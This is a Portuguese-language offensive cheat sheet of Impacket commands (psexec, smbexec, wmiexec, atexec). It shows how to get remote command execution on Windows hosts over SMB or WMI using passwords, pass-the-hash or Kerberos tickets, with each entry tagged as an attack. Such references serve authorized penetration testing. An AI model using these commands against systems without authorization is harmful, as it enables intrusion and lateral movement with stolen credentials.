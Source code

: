 # impacket

% impacket, windows, exec

## PSEXEC com usuario
#plataforma/linux #alvo/remoto #porta/445 #protocolo/smb #cat/ATTACK/CONNECT  
Cria um novo serviço (usando \pipe\svcctl via SMB)

```
psexec.py <domain>/<user>:<password>@<ip>
```

## PSEXEC com pass the Hash (pth)
#plataforma/linux #alvo/remoto #porta/445 #protocolo/smb #cat/ATTACK/CONNECT  
cria um novo serviço (usando \pipe\svcctl via SMB)

```
psexec.py -hashes <hash> <user>@<ip>
```

## PSEXEC com kerberos
#plataforma/linux #alvo/remoto #porta/445 #protocolo/smb #cat/ATTACK/CONNECT  
cria um novo serviço (usando \pipe\svcctl via SMB)

```
export KRB5CCNAME=<ccache_file>; psexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```

## SMBEXEC com username
#plataforma/linux #alvo/remoto #porta/445 #protocolo/smb #cat/ATTACK/CONNECT  
cria um novo serviço 'BTOBTO' (usando arquivos bat temporários via SMB)
```
smbexec.py <domain>/<user>:<password>@<ip>
```

## SMBEXEC com pass the Hash (pth)
#plataforma/linux #alvo/remoto #porta/445 #protocolo/smb #cat/ATTACK/CONNECT  
cria um novo serviço 'BTOBTO' (usando arquivos bat temporários via SMB)
```
smbexec.py -hashes <hash> <user>@<ip>
```

## SMBEXEC com kerberos
#plataforma/linux #alvo/remoto #porta/445 #protocolo/smb #cat/ATTACK/CONNECT  
cria um novo serviço 'BTOBTO' (usando arquivos bat temporários via SMB)
```
export KRB5CCNAME=<ccache_file>; smbexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```

## wmiexec
#plataforma/linux #alvo/remoto #porta/135 #protocolo/wmi #cat/ATTACK/CONNECT  
Executa uma shell de comandos sem tocar no disco ou rodar um novo serviço usando o DCOM

```
wmiexec.py <domain>/<user>:<password>@<ip>
```

## wmiexec  with pass the hash (pth) 
#plataforma/linux #alvo/remoto #porta/135 #protocolo/wmi #cat/ATTACK/CONNECT  

Executa uma shell de comandos sem tocar no disco ou rodar um novo serviço usando o DCOM

```
wmiexec.py -hashes <hash> <user>@<ip>
```

## atexec - executa um comando em um host remoto criando uma tarefa agendada e executando de forma imediata.
#plataforma/linux #alvo/remoto #porta/445 #protocolo/smb #cat/ATTACK/CONNECT  
Usando \pipe\atsvc via SMB


```
atexec.py <domain>/<user>:<password>@<ip> "command"
```

## atexec pass the hash (pth)
#plataforma/linux #alvo/remoto #porta/445 #protocolo/smb #cat/ATTACK/CONNECT  
executa um comando em um host remoto criando uma tarefa agendada e executando de forma imediata.
```
atexec.py -hashes <hash> <user>@<ip> "command"
```